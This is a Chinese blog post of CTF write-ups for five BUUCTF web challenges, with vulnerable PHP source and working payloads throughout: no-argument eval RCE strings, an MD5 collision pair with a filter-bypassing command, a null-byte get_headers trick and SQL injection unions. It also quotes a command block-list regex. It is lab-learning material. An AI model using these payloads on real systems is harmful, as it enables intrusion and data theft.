<!--yml
category: 未分类
date: 2022-04-26 14:35:29
-->

# BUUCTF__web题解合集（四）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/tm_1024/article/details/107851300](https://blog.csdn.net/tm_1024/article/details/107851300)

## 前言

*   这题一个比一个难。。。并且很重要的一点是看到题反应不过来，一看wp就会。
*   加油。

## 题目

### 一、[GXYCTF2019]禁止套娃

*   无参数rce，第一次接触。理解一下本质用函数替代参数。

*   首先打开啥都没有，就可以考虑一下是不是源码泄露。扫描得知 /.git 源码泄露。利用 `GitHack` 脚本得到源码。

    ```
    python GitHack.py url/.git 
    ```

*   得到 index.php 源代码。

```
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {

                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}

?> 
```

*   最外层禁用了常用PHP伪协议，虽然可以用数组绕过，但也会死在第二层。第二层正则匹配。
    

*   第三层则关键字过滤，是一些函数的关键字。不过我咋都没见过。。。

*   用函数，遍历目录，返回文件名，继续读取内容，再返回显示，好像就可以。

*   先介绍一些函数。

> localeconv() 函数返回一包含本地数字及货币格式信息的数组。
> scandir() 列出 images 目录中的文件和目录。
> readfile() 输出一个文件。
> current() 返回数组中的当前单元, 默认取第一个值。
> pos() current() 的别名。
> next() 函数将内部指针指向数组中的下一个元素，并输出。
> array_reverse()以相反的元素顺序返回数组。
> highlight_file()打印输出或者返回 filename 文件中语法高亮版本的代码。



*   再通过方法读取flag.php。但直接无法读取。可以看一下`current()` 函数的[介绍和输出](https://www.php.net/manual/zh/function.current.php)。
    

*   这样的话，没办法让它输出值为 `flag.php`。

*   方法我看到三种。

*   第一种就是使数组的倒序。用`array_reverse()`函数倒序，然后用上面的next()函数指向第二个元素。

    ```
     ?exp=print_r(array_reverse(scandir(current(localeconv())))); 
    ```




*   再用函数读取文件内容即可，读文件当然首先想到`file_get_contents()` 函数，但它死在了第三层的过滤。寻找替代函数。可以用`readfile()`、`highlight_file()`、`show_source()` 函数读取。

    ```
    ?exp=print_r(readfile(next(array_reverse(scandir(current(localeconv()))))));
    ?exp=print_r(show_source(next(array_reverse(scandir(current(localeconv()))))));
    ?exp=print_r(highlight_file(next(array_reverse(scandir(current(localeconv())))))); 
    ```







*   再用刚刚说的文件读取函数读取flag。其它函数同理类似，结果都可以。

    ```
    ?exp=print_r(readfile(array_rand(array_flip(scandir(current(localeconv())))))); 
    ```

*   第三个就是最强的，利用PHP的session来读取。

*   通过`session_start()`函数告知PHP服务端使用客户端的 session ，并且将 session 设置为 flag.php 。再用`session_id()`函数都获取 session 的值。最后用文件读取函数得到flag。

    ```
    ?exp=show_source(session_id(session_start())); 
    ```



### 二、[安洵杯 2019]easy_web

*   不错不错，这次得到了index.php的源码。

*   打开，页面内容过于真实。。。不过看到url中

    ```
    index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd= 
    ```

*   参数img的值符合base64编码的特征，去解码，提示格式错误，加个等号，解一次发现得到一串有等号的base64编码字符串，再解码，得到

    ```
    3535352e706e67 
    ```

*   误打误撞，十六进制转文本得到 文件名 555.png。

*   再看到页面有一张图片，猜测图片文件就是靠参数 img 输出的，同时，图片是base转码得到的，于是，同理转码一个index.php，先文本转十六进制，再两次base64加密。得到

    ```
    TmprMlpUWTBOalUzT0RKbE56QTJPRGN3 
    ```

*   替换构造url访问，刚开始那种图片没显示了，在源代码中找到base64编码的数据，解码就得到 index.php 源代码。
    

*   index.php 源代码。

```
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "</img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:
}
</style>
<body>
</body>
</html> 
```

*   分析很容易发现，`echo $cmd;`是解题关键。而执行它的关键就是POST传入a和b，字符串不相等但md5值相等。不过是用的`===`，真实md5碰撞，因为此时不能输入数组了，只能输入字符串。

    ```
    a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

    b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2 
    ```

*   找到上面两个md5真实相等的两个字符串。即可绕过。积累了。

*   但同时，cmd参数过滤了很多关键字。最常用的`cat /flag` 命令因为cat和空格被过滤不可用。

*   可以用ca\t%20/flag绕过。%20代替空格。反斜杠被忽略。[参考文章](https://www.cnblogs.com/fnlingnzb-learner/p/6839669.html)
    

*   最终payload，抓包，post传入a、b变量，并赋值cmd。
    

*   总结：md5的婪够相等的碰撞值、shell命令中反斜杠的作用。

### 三、[GKCTF2020]cve版签到

*   提示是`cve-2020-7066`。找到[原文介绍](https://bugs.php.net/bug.php?id=79329)

*   大概解释就是 `get_headers()` 函数有问题，[它的作用](https://www.php.net/manual/zh/function.get-headers.php)是获取访问一个服务器的返回报文的 header 信息，然后以一个数组的形式输出。

*   但是函数有一个问题，它会截断URL中空字符后的内容。看官方的例子， 输入`url` http://localhost\0.example.com 获取的是 `http://localhost` 的header信息。并且通过`== '.example.com'` 验证。
    

*   再看题目，打开点击 View CTFHub。地址栏发现url变量。同时，burp抓包发现提示。
    

*   所以，应该本地访问，且以123结尾，所以应该访问`127.0.0.123`

*   我们尝试 http://127.0.0.123\0.ctfhub.com 。回显失败，但是用`%00`代替`\0` 就可以

    ```
    ?url=http://127.0.0.1%00.ctfhub.com 
    ```

    

*   这里想了一下为什么用`%00`代替`\0` 就可以，前面说到空字符，`%00`就是url编码形式的空字符，`\0`是字符形式的空字符，还有`0x00`，十六进制形式的空字符。[参考一下](https://blog.csdn.net/qq_26090065/article/details/81458937?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-2.channel_param&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-2.channel_param)。

*   总结：认识一个`get_headers()`函数可能会出现问题

### 四、[SWPU2019]Web1

*   sql注入题，但注入点不在注册登录，而在广告名。申请广告名称为`1'`时发现在广告详情存在sql语句报错。
    

*   继续测试发现，空格不能有，申请广告名时输入`1 2`在广告列表变成了`12` ，可以用`/**/`代替空格。同时过滤了注释符`--`和`#`，`%23`也没用

*   所以，我们需要用单引号去闭合后面部分的sql语句，所以尝试联合注入

    ```
    -1'union/**/select/**/1,2,3'1 
    ```



*   有回显，继续增加列数，，，一直加加加，居然加到了22。。。 不会怀疑人生吗。。。

    ```
    -1'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'1 
    ```


*   同时确认回显位在2、3。先看看数据库和用户名。

    ```
    -1'union/**/select/**/1,database(),user(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'1 
    ```



*   可行，继续查看表，发现提示报错，拆开测试发现or等被过滤，即无法使用information_schema库。好像是因为BUU平台的原因，没有[聊一聊bypass information_schema](https://www.anquanke.com/post/id/193512) 里提到的库，所以不能用。

*   再去看上次写安恒月赛提到的库，也都提示不存在。。。

*   再次中断，，，看wp用的是 `mysql.innodb_table_stats` 。所以payload为

    ```
    -1'/**/union/**/select/**/1,database(),(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'1 
    ```

    

*   就很好奇这是怎么找到的。接下来无法继续得到列名。所以学到新知识点，[无列名注入](https://zhuanlan.zhihu.com/p/98206699)。

*   看着吧，好像不好理解为什么能注入出来，但操作是可行的。所以最终payload

    ```
    -1'union/**/select/**/1,database(),(select/**/group_concat(b)/**/from(select/**/1,2,3/**/as/**/b/**/union/**/select*from/**/users)s),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,1' 
    ```

*   核心

    ```
    (select/**/group_concat(b)/**/from(select/**/1,2,3/**/as/**/b/**/union/**/select*from/**/users)s) 
    ```

*   首先就是确定是哪个表，测试发现前面的会提示表不存在，只有`users`不会，然后就是 `1,2,3` 增加或减少会提示列数不同。再就是as代替反引号，类似指定别名 。不过，我没用as也成功了，用反引号好像也可以。

    ```
    -1'union/**/select/**/1,database(),(select/**/group_concat(`3`)/**/from(select/**/1,2,3/**/union/**/select*from/**/users)s),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,1' 
    ```

*   就这样结束。虚假的做题，没wp就不会。

*   再来看一下做题遇到了啥？首先就是注入点有点不好找，其次`mysql.innodb_table_stats` 不知道，然后是无列名注入第一次遇到。。。

### 五、[ASIS 2019]Unicorn shop

*   一个商店，购买最后一个独角兽出flag，购买前面的商品都是提示操作失败，购买最后提示只能输入一个字符。 在价钱栏输入字符提示解析错误。

*   我感觉，有很明显的象征引导你往`Unicode`编码想，但就是想不到。。。还有一个不算提示的提示。说`utf-8`很重要
    

*   也就是说一个只能用一个字符，值大于1377。才能购买。

*   结果就是很简单的找一个`Unicode`编码大于1337的字符就行。在[这里](https://www.compart.com/en/unicode)搜索`thousand(千)` 随便找一个或者直接找也行，比如说`𐡟` ，输入价格，就成功出flag。因为它代表数值是1000
    

*   如果可以看到它后端源码在处理价格输入的话应该很好理解，但没找到。

*   做完就知道，`Unicode`与`utf-8` 编码转换时可能会有问题。可以看一下[相关介绍](https://xz.aliyun.com/t/5402#toc-0)和[这个](https://zhuanlan.zhihu.com/p/53714077)

## 最后

*   发现这样做题很没效果，基本上没wp都做不出来。
*   越学越迷。